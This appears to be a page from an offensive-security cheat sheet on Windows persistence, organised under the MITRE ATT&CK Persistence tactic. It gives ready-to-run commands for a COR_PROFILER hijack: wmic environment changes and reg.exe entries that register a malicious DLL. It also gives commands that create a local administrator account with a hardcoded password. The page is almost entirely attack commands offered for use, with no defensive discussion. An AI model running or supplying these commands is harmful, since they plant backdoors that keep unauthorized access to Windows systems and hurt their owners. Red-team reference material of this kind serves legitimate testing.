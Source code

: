 ```yaml
---
description: >-
  The adversary is trying to maintain their foothold.
  https://attack.mitre.org/tactics/TA0003/
---
```


# Persistence

## COR Profiler Variable Hijack

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)

{% code overflow="wrap" %}
```powershell
# deleting existing COR_PROFILER variable
wmic ENVIRONMENT where "name='COR_PROFILER'" delete

# creating COR_ENABLE_PROFILING variable and setting it to 1
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="<system>",VariableValue="1"

# creating a new COR_PROFILER variable
wmic ENVIRONMENT create name="COR_PROFILER",username="<system>",VariableValue="<arbitrary CLSID>"

# adding registry keys for malicious DLL
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /V ThreadingModel /T REG_SZ /D Apartment /F
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /VE /T REG_SZ /D "<malicious_DLL>" /F
```
{% endcode %}

## Local Administrator Account Creation

{% code overflow="wrap" %}
```powershell
net user burmat BURMAT123123123 /add
net localgroup administrators burmat /add 
net localgroup administrators
```
{% endcode %}

